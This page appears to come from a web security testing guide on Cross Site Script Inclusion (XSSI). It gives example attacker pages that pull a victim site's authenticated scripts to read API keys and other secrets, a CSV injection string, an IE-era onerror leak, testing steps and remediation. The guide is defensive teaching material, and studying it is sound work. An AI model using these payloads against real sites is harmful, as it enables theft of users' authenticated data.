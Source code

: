 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and an XSSI attack uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy (defined by RFC 6454 [1]). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not appliable for <SCRIPT> HTML tag inclusions. This exception is necessary, without it websites would not be able to consume third party services, traffic analysis or advertisement platforms, etc.

When the browser opens a website the <SCRIPT> resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is in most cases JavaScript however the SCRIPT SRC entity doesn't have to be a JavaScript file or be served with text/javascript or .js extension. Some browsers are lenient and only block if it is served with an image type (image/), a video type (video/), an audio (audio/*) type, or text/csv [10].

Old browser version vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime but those vulnerabilties have now been patched by vendors and are considered not as relevant. By setting the charset attribute of the <SCRIPT> tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (eg JSON). If you want to learn more about these please read Takeshi Terada: Identifier based XSSI attacks MBSD Technical Whitepaper [8].

The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables
2. Leak sensitive data via global function parameters
3. Leak sensitive data via non-JavaScript resource - CSV with quotations theft
4. Leak sensitive data via JavaScript runtime errors

## Example - Leak sensitive data via global variables

1. An API key is stored in a JavaScript file with the URI https://victim.com/internal/api.js on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

api.js contents:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following content:

index.html contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com either via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches the api.js and the sensitive data is leaked via the global JavaScript variable. 

## Example - Leak sensitive data via global function parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

index.html contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

api.js contents:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example - Leak sensitive data via non-JavaScript resource - CSV with quotations theft

To leak data the attacker/test has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier basedXSSI attacks whitepaper [8]:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the \"",$$$=function(){/* string has the following result:

```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array by defining and overwriting the internal Array constructor like this:

```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example - Leak sensitive data via JavaScript runtime errors

Browsers normally present a standardized Javascript error message like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI http://victim.com/service/csvendpoint for authenticated users:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```
<!--error handler -->
<SCRIPT>window.onerror = function(err) {alert(err)}</SCRIPT>
<!--load target CSV -->
<SCRIPT src="http://victim.com/service/csvendpoint"></SCRIPT>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](../images/XSSI1.jpeg)

## How to Test
### Black Box Testing

The methodology has the following steps:
1. Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using JSONP. To find dynamically generated JavaScript responses generate authenticated and unauthenticated requests and compare/diff them. If they're different then the response is dynamic otherwise it's static. To simplify this task you can use Veit Hailperin's web proxy plugin [2] for Burp proxy. Make sure to check other filetypes: XSSI is not limited to JavaScript files and is much more widespread.

2. Investigate if the sensitive data can be leaked using JavaScript either using:
- Global variables.
- Global functions and parameters.
- Using an old version of browser intentionally and exploiting the JavaScript runtime error vulnerability to leak data.

### Gray Box Testing

The methodology is similar with the exception of the attacker/tester may have access to the source code to review.

# Remediation

1. Don't put sensitive user data in Javascript responses and avoid JSONP if possible. 
2. Use correct Content-Type headers with appropriate charset defined.
3. Use the "X-Content-Type-Options: nosniff" in the response header which causes browsers to reject CSV and other data with non-script MIME type designation when they are loaded as JavaScript.
4. Use Anti-Cross-Site Request Forgery Tokens.
5. Debdevelopers can either include an unparsable content to the beginning of the response (eg. an uncatchable exception) to cause runtime compile errors. This approach assumes that runtime errors cannot be leaked via browser vulnerabilities.

# References

1. [RFC 6454: The Web Origin Concept](https://tools.ietf.org/html/rfc6454)
2. [W3schools - JSONP](https://www.w3schools.com/js/js_json_jsonp.asp)
3. [Wikipedia - JSONP](https://en.wikipedia.org/wiki/JSONP)
4. [Sebastian Lekies - Leaking Data Across Origins Via Dynamic Script Includes ](http://sebastian-lekies.de/leak/)
5. [Veit Hailperin - Cross-Site Script Inclusion](https://www.scip.ch/en/?labs.20160414)
6. [Sebastian Lekies / Ben Stock: Your Script in My Page: What Could Possibly Go Wrong?](https://www.owasp.org/images/f/f3/Your_Script_in_My_Page_What_Could_Possibly_Go_Wrong_-_Sebastian_Lekies%2BBen_Stock.pdf)
7. [Sebastian Lekies, Ben Stock, Martin Wentzel and Martin Johns - Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
8. [Takeshi Terada: Identifier based XSSI attacks (MBSD Technical Whitepaper)](https://www.mbsd.jp/Whitepaper/xssi.pdf)
9. [Veit Hailperin: The Tale of a Fameless but Widespread Vulnerability](https://www.owasp.org/images/9/9a/20160607-xssi-the_tale_of_a_fameless_but_widepsread_vulnerability-Veit_Hailperin.pdf)
10. [HackerOne XSSI – Stealing Multi Line Strings](https://blog.cm2.pw/h1-xssi/)
11. [Jeremiah Grossman blog - Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html)
12. [A Codelab by Bruce Leban, Mugdha Bendre, and Parisa Tabriz](https://google-gruyere.appspot.com/part3#3__cross_site_script_inclusion)

# Tools

1. [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
2. [Veit Hailperin - Detect Dynamic JavaScript](https://github.com/luh2/DetectDynamicJS/blob/master/DetectDynamicJS.py)
